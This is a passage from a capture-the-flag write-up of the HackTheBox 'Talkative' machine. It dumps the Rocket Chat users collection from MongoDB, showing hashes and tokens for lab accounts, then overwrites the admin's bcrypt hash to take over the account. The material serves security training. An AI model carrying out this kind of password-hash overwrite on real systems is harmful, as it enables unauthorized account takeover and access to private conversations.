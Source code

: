 Hmm... It seems like **this database is for the Rocket Chat application on TCP port 3000**...

Now, I wonder what's the `admin` user on Rocket Chat, **like can I read its conversation between different people**??

But how?

**In the `meteor` database, there's a `users` collection:**
```shell
rs0:PRIMARY> db.users.find()
{ "_id" : "rocket.cat", "createdAt" : ISODate("2021-08-10T19:44:00.224Z"), "avatarOrigin" : "local", "name" : "Rocket.Cat", "username" : "rocket.cat", "status" : "online", "statusDefault" : "online", "utcOffset" : 0, "active" : true, "type" : "bot", "_updatedAt" : ISODate("2021-08-10T19:44:00.615Z"), "roles" : [ "bot" ] }
{ "_id" : "ZLMid6a4h5YEosPQi", "createdAt" : ISODate("2021-08-10T19:49:48.673Z"), "services" : { "password" : { "bcrypt" : "{Redacted}" }, "email" : { "verificationTokens" : [ { "token" : "{Redacted}", "address" : "saul@talkative.htb", "when" : ISODate("2021-08-10T19:49:48.738Z") } ] }, "resume" : { "loginTokens" : [ ] } }, "emails" : [ { "address" : "saul@talkative.htb", "verified" : false } ], "type" : "user", "status" : "offline", "active" : true, "_updatedAt" : ISODate("2023-08-12T07:21:45.569Z"), "roles" : [ "admin" ], "name" : "Saul Goodman", "lastLogin" : ISODate("2022-03-15T17:06:56.543Z"), "statusConnection" : "offline", "username" : "admin", "utcOffset" : 0 }
{ "_id" : "hwxi2CdRyhcaMLEv7", "createdAt" : ISODate("2023-08-12T09:25:19.756Z"), "services" : { "password" : { "bcrypt" : "$2b$10$ZzvI774QsRbwqKcMuwPKYujlGtYj2CWvJUSI3vlUloTQ7RrCsRI5a", "reset" : { "token" : "CSSAl8Un8br45AzI8NlMFORrWaUHPf_wKiRGOWNXP-v", "email" : "test@talkative.htb", "when" : ISODate("2023-08-12T09:25:21.867Z"), "reason" : "enroll" } }, "email" : { "verificationTokens" : [ { "token" : "y75Jde3l2lsOkpJQAg57YhCg6vX1Som4kWAZcsRy5Bf", "address" : "test@talkative.htb", "when" : ISODate("2023-08-12T09:25:19.797Z") } ] }, "resume" : { "loginTokens" : [ { "when" : ISODate("2023-08-12T09:25:20.011Z"), "hashedToken" : "iwc+pPqVZlmdxkWwS0cwQi76bs2YBLBZ2XI95V51h1M=" } ] } }, "emails" : [ { "address" : "test@talkative.htb", "verified" : false } ], "type" : "user", "status" : "online", "active" : true, "_updatedAt" : ISODate("2023-08-12T09:25:21.882Z"), "roles" : [ "user" ], "name" : "test", "lastLogin" : ISODate("2023-08-12T09:25:20.009Z"), "statusConnection" : "online", "utcOffset" : 8, "username" : "test" }
```

Which holds all users credentials and details.

We can try to crack user `admin`'s bcrypt password hash, but there's a smarter way.

**According to [Rocket Chat documentation](https://docs.rocket.chat/setup-and-configure/advanced-workspace-management/restoring-an-admin), we can just update the `admin` user's bcrypt password hash to whatever we want!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812173639.png)

**Let's update the `admin` user's bcrypt password hash!**
```shell
rs0:PRIMARY> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```

> Note: The updated password is `12345`.

**Now, we should able to login as user `admin`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Talkative/images/Pasted%20image%2020230812173854.png)
